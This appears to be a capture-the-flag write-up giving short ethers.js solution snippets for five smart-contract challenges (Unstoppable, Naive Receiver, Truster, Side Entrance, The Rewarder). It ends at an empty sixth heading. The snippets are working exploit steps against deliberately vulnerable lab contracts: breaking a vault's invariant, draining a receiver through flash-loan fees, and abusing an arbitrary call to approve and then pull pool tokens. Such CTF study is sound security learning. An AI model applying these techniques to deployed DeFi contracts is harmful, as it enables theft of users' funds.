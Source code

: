 
#Challenge #1:        

Un-Stoppable

````
// lets transfer some amount directly to vault and make the if logic fail forever
await token.connect(player).transfer(vault.address, 10);
````

#Challenge #2:

Naive Receiver

````
await pool.connect(player).flashLoan(receiver.address, ETH, 0, "0x");
````

#Challenge #3:

Truster

````
let interface = new ethers.utils.Interface(["function approve(address spender, uint256 amount)"]);
let data = interface.encodeFunctionData("approve", [player.address, TOKENS_IN_POOL]);
await pool.connect(player).flashLoan(0, player.address, token.address, data);
await token.connect(player).transferFrom(pool.address, player.address,  TOKENS_IN_POOL);
````

#Challenge #4: 

[Challenge #4 - Side Entrance]

In the Flash Loan call deposit function and trick the contract flash loan check

```
this.attackerContract = await (await ethers.getContractFactory('AttackSideEntrance', player)).deploy(
    pool.address,
    player.address
);
await this.attackerContract.attack();
```

#Challenge #5

The Rewarder

````
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */
    // Advance time 5 days so that depositors can get rewards
    await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 days
    this.attackerContract = await ( await ethers.getContractFactory("AttackTheRewarder", player)).deploy(
        flashLoanPool.address, rewarderPool.address, liquidityToken.address, rewardToken.address
    );
    await this.attackerContract.attack();
});
````

#Challenge #6

